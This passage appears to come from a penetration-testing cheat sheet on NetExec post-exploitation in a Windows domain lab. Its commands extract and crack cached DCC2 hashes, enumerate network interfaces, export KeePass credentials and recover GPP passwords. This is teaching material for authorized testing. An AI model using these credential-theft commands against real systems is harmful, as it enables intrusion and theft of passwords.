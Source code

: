 The hash format that starts with `$DCC2$` (derived from `--lsa`) is **stronger than NTLM** and **cannot be used for a PtH attack**. For attempting to crack them, the domain and username needs to be removed; only the value starting with `$DCC2$` is required.

{% code overflow="wrap" %}
```bash
# Convert DCC2 hashes
$ cat MS01_10.129.204.133_2022-11-08_093944.cached| cut -d ":" -f 2
$DCC2$10240#julio#c2139497f24725b345aa1e23352481f3
$DCC2$10240#david#a8338587a1c6ee53624372572e39b93f
$DCC2$10240#john#fbdeac2c1d121818f75796cedd0caf0a

# Crack hashes
hashcat -m2100 hashes.txt /usr/share/wordlists/rockyou.txt
```
{% endcode %}
{% endtab %}

{% tab title="NICs" %}
Enumerate network interfaces:

```bash
# Via WMI
nxc smb <ip> -u <user> -p <pass> -M get_netconnections

# Via RPC
nxc smb <ip> -u <user> -p <pass> -M ioxidresolver
```
{% endtab %}

{% tab title="KeePass" %}
Locate the configuration file:

```bash
nxc smb <ip> -u <user> -p <pass> -M keepass_discover
```

Check for credentials:

{% code overflow="wrap" %}
```bash
nxc smb <ip> -u <user> -p <pass> -M keepass_trigger -o ACTION=ALL KEEPASS_CONFIG_PATH=C:/Users/julio/AppData/Roaming/KeePass/KeePass.config.xml 
```
{% endcode %}

Check `/tmp/export.xml` after.
{% endtab %}

{% tab title="GPP" %}
Retrieve the plaintext password for accounts pushed through GPPs:

```bash
nxc smb <ip> -u <user> -p <pass> -M gpp_password
```

Search for `registry.xml` files for autologin information:
